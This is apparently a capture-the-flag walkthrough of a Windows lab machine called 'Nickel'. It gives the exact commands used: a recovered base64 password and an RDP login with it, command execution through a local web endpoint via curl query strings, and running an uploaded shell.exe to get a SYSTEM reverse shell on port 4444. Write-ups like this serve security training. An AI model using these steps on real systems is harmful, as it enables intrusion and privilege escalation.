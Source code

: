 # Nickel (Windows)

## Initial Foothold

- Referenced the walkthrough: [Nickel - Walkthrough](https://medium.com/@mahdi_78420/nickel-walkthrough-practice-tj-c41e273146bf).
- Used the following command to interact with DevTasks and obtained credentials for the user `ariah` (password was base64-encoded):

    cmd.exe C:\windows\system32\DevTasks.exe --deploy C:\work\dev.yaml --user ariah -p "Tm93aXNlU2xvb3BUaGVvcnkxMzkK" --server nickel-dev --protocol ssh

- Decoded the base64 password to retrieve `NowiseSloopTheory139`.
- Connected via RDP using:

    xfreerdp3 /u:ariah /p:'NowiseSloopTheory139' /v:192.168.216.99

- Transferred and cracked a PDF file (via FTP folder or with ariah's credentials) to obtain more information.
- Opened the PDF, found interesting URLs, and tested them.

## Privilege Escalation

- SShed into the machine and found port 80 open locally.
- Using CMD, ran:

    curl http://127.0.0.1/?
    curl http://127.0.0.1/?whoami

- Verified NT AUTHORITY context.
- Uploaded `shell.exe` and executed it with:

    curl http://127.0.0.1/?C:\Users\ariah\shell.exe

- With a listener on port 4444, received a SYSTEM-level reverse shell.
